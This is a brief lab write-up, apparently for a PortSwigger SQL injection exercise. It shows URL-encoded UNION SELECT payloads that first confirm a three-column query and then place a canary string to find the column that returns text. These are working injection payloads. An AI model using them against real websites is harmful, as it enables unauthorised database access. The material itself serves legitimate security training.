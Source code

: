 # [SQLi: UNION, Finding a Column Containing Text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

First, [find the number of columns required](psa-sqli-union-attack-finding-number-of-columns-20250613.md).

Here's a working payload that demonstrates that the UNION needs three columns:

- `/filter?category=Gifts%27%20union%20select%20null,null,null--`

Then try the canary string in each position until it returns:

- `/filter?category=Gifts%27%20union%20select%20null,%270r4LBs%27,null--`:

![](_/psa-sqli-union-attack-finding-a-column-containing-text-20250613-1.png)